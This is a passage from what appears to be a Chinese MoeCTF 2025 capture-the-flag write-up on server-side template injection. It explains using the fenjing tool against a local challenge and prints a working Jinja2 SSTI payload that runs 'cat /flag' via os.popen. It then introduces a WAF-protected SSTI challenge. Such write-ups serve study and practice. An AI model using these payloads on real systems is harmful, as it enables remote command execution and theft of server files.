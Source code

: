 这样填写参数，目标链接填写 http://127.0.0.1:42803/?password=iwantflag ，等待几分钟。

看到分析完成了就可以直接在 webui 执行命令拿 flag 了，当然你也可以使用 fenjing 提供的 payload 自己去做：{{(cycler.next.**globals**.os.popen('cat /flag')).read()}}

![image.png](./moectf2025wp/image_51.png)

---

## [SSTI 模板注入] 21 第二十一章 往生漩涡·言灵死局

前置阅读： 20章

审阅附件源码，发现是带 waf 的 ssti。这还说啥，一把梭了。
